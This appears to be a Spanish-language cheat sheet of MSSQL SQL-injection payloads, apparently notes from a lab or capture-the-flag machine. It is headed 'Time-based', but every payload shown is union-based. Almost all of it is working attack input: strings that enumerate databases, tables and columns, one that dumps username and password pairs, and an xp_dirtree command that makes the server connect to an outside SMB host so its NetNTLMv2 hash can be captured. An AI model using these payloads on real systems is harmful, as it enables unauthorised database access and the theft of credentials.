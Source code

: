 # Time-based

## MSSQL

### Enumeración de columnas

```null
test'union+select+1,2,3,4,5,6--+-
```

## Enumeración de bases de datos

```null
test'union+select+1,name,3,4,5,6+FROM+master..sysdatabases--+-
```

## Extracción de tablas

```null
test'union+select+1,name,3,4,5,6+FROM+STREAMIO..sysobjects+WHERE+xtype+%3d+'U'--+-
```

## Extracción de columnas

```null
test'union+select+1,name,3,4,5,6+FROM+syscolumns+WHERE+id+%3d+(SELECT+id+FROM+sysobjects+WHERE+name+%3d+'users')--+-
```

## Dumpeo de datos

```null
test'union+select+1,concat(username,':',password),3,4,5,6+FROM+users--+-
```

## Obtenciónd de hash NetNTLMv2

```null
'; use master; exec xp_dirtree '\\10.10.16.2\shared';-- 
```

